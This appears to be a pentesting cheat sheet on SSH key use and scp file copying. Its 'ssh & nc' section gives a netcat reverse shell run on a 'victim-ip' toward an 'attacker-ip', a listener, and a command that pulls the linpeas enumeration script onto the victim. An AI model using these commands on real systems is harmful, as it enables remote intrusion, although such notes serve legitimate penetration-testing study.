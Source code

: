```
C:\\Users\\username\\.ssh\\id_rsa
```

```
chmod 600 ssh_key
```

```
ssh -i ssh_key user@ip
```

### Copy a Local File to a Remote System

```
scp localfile  remoteusername@remotehost:/remote/directory
```

### Copy a Remote File to a Local System

```
scp remoteusername@remotehost:/remotefile /local/directory
```

## ssh & nc

```
ssh username@victim-ip "nc attacker-ip port -e /bin/bash"
```

```
nc -nlvp port
```

```
ssh username@victim-ip "nc attacker-ip port > linpeas.sh"
```

```
ssh username@ip -p2222
```

